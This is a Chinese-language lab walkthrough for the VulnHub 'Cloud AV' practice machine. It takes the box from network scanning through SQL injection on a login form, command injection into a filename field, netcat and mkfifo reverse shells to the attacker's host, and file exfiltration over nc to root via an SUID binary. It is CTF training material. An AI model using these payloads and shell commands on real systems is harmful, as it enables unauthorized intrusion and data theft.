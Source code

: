靶机地址：[BoredHackerBlog: Cloud AV ~ VulnHub](https://www.vulnhub.com/entry/boredhackerblog-cloud-av,453/)
主机发现
```Shell
sudo arp-scan -l
# 发现 192.168.1.27

# 这个也行 更通用 但是麻烦一点儿
for i in $(seq 1 254); do sudo arping -c 1 192.168.1.$i; done
```
端口扫描
```Shell
sudo nmap -p- 192.168.1.27
# 22 8080
```
服务枚举
```Shell
sudo nmap -p22,8080 -sV 192.168.1.27
# 22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
# 8080/tcp open  http    Werkzeug httpd 0.14.1 (Python 2.7.15rc1)
```
访问web服务，发现是一个表单。
随便输入一串字符33334444，使用Burp Suite拦截请求。
```
# 右键 Send to Intruder
# 将password的值设置为注入点
```
特殊字符字典：
```
`
~
!
@
#
$
%
^
&
*
(
)
-
_
+
=
[
]
{
}
\
|
;
:
'
"
,
<
.
>
/
?
```
加载进去，点击start，开始测试。
发现符号 `"` 和 符号 `%` 触发了错误，返回结果中包含了很多信息，例如：
```
File "/home/scanner/cloudav_app/app.py", line 18, in login
if len(c.execute('select * from code where password="' + password + '"').fetchall()) > 0:
```
观察代码，尝试如下SQL注入。
```
" or 1=1--
" or "1"="1
```
都可以注入成功，通过后的页面类似 `ls -l` 的输出
暴力破解也能出密码
```
password
```
这里如果不存在SQL注入，可以尝试使用暴力破解，字典文件目录如下：
```Shell
ls /usr/share/wordlists
```
这个表单是提交一个文件名，尝试使用命令注入，提交如下内容，使用管道有时候也行。
```
hello; id
hello | id
```
观察响应结果，确实存在命令注入漏洞，看看系统中是否存在某些工具
```
hello; echo; which sh
hello; echo; which nc
```
发现存在 `nc` ，尝试直接反弹shell
```
hello; nc 192.168.1.26 4444 -e /bin/sh
```
反弹失败了，没有收到连接，可能是目标机器上的 `nc` 不支持 `-e` 参数
这种情况下一般使用 `nc` 的串联，需要在自己的机器上开启两个侦听端口
```Shell
nc -nvlp 3333
nc -nvlp 4444
```
靶机上注入如下命令
```Shell
nc 192.168.1.26 3333 | /bin/bash | nc 192.168.1.26 4444
# 或直接
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i &> | nc 192.168.1.26 4444 > /tmp/f
```
即一边输入指令，另一边看输出结果，最终输入如下字符串
```
hello; nc 192.168.1.26 3333 | /bin/bash | nc 192.168.1.26 4444
```
或
```
hello;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.26 4444 >/tmp/f
```
没问题，成功获取到了shell
```Shell
ls -la # 查看文件
uname -a # 查看系统版本
```
发现一个 `database.sql`
```Shell
file database.sql # 查看文件类型
```
考虑下载到本地，看看有没有机密信息
```Shell
ncat -nvlp 5555 > database.sql
nc 192.168.1.26 5555 < database.sql
```
查看文件内容
```Shell
sqlite3
sqlite> .open database.sql # 打开数据库文件
sqlite> .database # 查看数据库
sqlite> .dump # 查看数据
sqlite> .exit # 退出
```
发现存在四个密码
```
INSERT INTO code VALUES('myinvitecode123');
INSERT INTO code VALUES('mysecondinvitecode');
INSERT INTO code VALUES('cloudavtech');
INSERT INTO code VALUES('mostsecurescanner');
```
枚举用户
```Shell
# 筛选可以登录的
cat /etc/passwd | grep -v "nologin" | cut -d : -f 1
# 筛选有bash的
cat /etc/passwd | grep "/bin/bash" | cut -d : -f 1
```
有 `bash` 的结果如下
```
root
cloudav
scanner
```
尝试对暴力破解SSH连接
```Shell
hydra -L user.txt -P pass.txt ssh://192.168.1.27
```
尝试失败了，没有有效的账号密码
没有发现可以利用的文件，尝试到上一级目录中寻找
```Shell
cd ..
ls -l
# drwxrwxr-x 4 scanner scanner 4096 Oct 24  2018 cloudav_app
# -rwsr-xr-x 1 root    scanner 8576 Oct 24  2018 update_cloudav
# -rw-rw-r-- 1 scanner scanner  393 Oct 24  2018 update_cloudav.c
```
尝试SUID提权
```Shell
find / -perm -u=s -type f -user root ! -group root 2>/dev/null -exec ls -l {} \;
```
发现一个属主为root的SUID文件，通过SUID提权也是一种常用的提权方式
```Shell
# 先查看源代码
cat update_cloudav.c
```
发现可以尝试使用命令注入
```Shell
./update_cloudav "a; nc 192.168.1.26 5555 | /bin/bash | nc 192.168.1.26 6666"
# 或
./update_cloudav "a;rm /tmp/fr;mkfifo /tmp/fr;cat /tmp/fr|/bin/sh -i 2>&1|nc 192.168.1.26 5555 >/tmp/fr"
```
成功获取到root权限，直接bash也行
```Shell
./update_cloudav "a;bash -i"
```